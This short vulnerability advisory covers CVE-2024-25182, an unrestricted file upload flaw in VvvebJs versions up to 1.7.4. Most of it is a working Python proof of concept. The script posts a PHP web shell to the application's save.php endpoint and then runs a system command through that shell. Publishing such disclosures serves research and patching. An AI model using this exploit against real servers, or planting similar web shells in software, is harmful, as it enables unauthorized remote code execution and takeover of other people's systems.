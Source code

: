 # CVE-2024-25182
The VvvebJs application is vulnerable to Unrestricted File Upload attacks, making it possible to send malicious files leading to remote code execution.

Name Affected product: VvvebJs

Version affected: <= 1.7.4

Problem: Unrestricted File Upload

Proof of concept:
```py
import requests

url = "http://ip:port/save.php"
data = {
    "file":"teste.php",
    "html":"<?php system($_GET['cmd']); ?>"
}

resp = requests.post(url, data)

resp = requests.get("http://ip:port/teste.php?cmd=id")
print(resp.text)
```